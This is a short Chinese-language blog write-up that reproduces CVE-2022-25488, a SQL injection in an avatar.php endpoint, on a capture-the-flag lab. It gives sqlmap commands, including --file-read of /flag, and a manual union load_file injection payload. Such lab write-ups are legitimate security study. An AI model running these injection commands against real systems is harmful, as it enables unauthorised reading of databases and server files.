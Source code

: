 ```yaml
---
title: CVE-2022-25488
subtitle:
date: 2025-03-14T12:13:30+08:00
slug: bd46488
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/2745a2b099742c4446fd668420e9ea2b.png)

访问网站发现提示404，

![](images/a442de9815c07d10ffa1cd43b3a11721.png)

尝试访问所给路径/admin/ajax/avatar.php，依然没有任何显示，访问上一路径

![](images/1ccf0ae4708780f319188f82bdd0b5ee.png)

访问其他文件得到报错

![](images/ab1be5fd8475bfc5e3cfcae18dea3f6c.png)

拿到参数id，sqlmap进行尝试

``` Shell
sqlmap -u "http://eci-2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1"
```



![](images/cbb840f42b684ef446954e80ab685f23.png)

得到数据库类型，进行读flag

``` Shell
sqlmap -u "http://eci 2ze1ldkkzy8hjpn1egve.cloudeci1.ichunqiu.com/admin/ajax/avatar.php?id=1" -D "mysql" --file-read "/flag"
```



![](images/5cd3df30766743afc166042079f90002.png)



手工注入
查看avatar.php内容

![](images/d7f9a5e9bffaa598faa8a48d3ab0563b.png)

尝试注入点?id=1和?id=1' ，发现在id=1时源码发生变化

![](images/1d7ca1b0d577027c1bfc151240470eff.png)

再次尝试id=1 and 1=1 ，判断为字符型

![](images/b82417376d2dc6503ee50c95220cd12e.png)

sql报错注入，使id语法错误，回显flag
?id=-1 union (select load_file('/flag'))#

![](images/5ed87b645cfc9859d8ddfa114515d68f.png)

同样拿到flag





